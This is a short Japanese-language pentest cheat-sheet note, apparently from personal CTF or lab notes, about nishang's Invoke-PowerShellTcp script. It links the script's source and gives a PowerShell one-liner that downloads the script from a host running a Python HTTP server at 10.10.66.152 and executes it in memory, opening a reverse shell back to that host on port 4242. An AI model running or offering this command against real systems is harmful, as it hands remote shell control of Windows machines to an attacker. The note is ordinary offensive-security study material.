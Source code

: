 # Invoke-PowerShellTcp(nishang)

powershellからreverse shell貼るときに使う

https://github.com/samratashok/nishang/blob/c3fdf5e5dfa8612d0a17636dbb096b04e987ab31/Shells/Invoke-PowerShellTcp.ps1

# Usage
pythonSimpleHTTPServerをホストで立ててDL&Reverse shell貼るパターン

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.66.152:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.66.152 -Port 4242
```
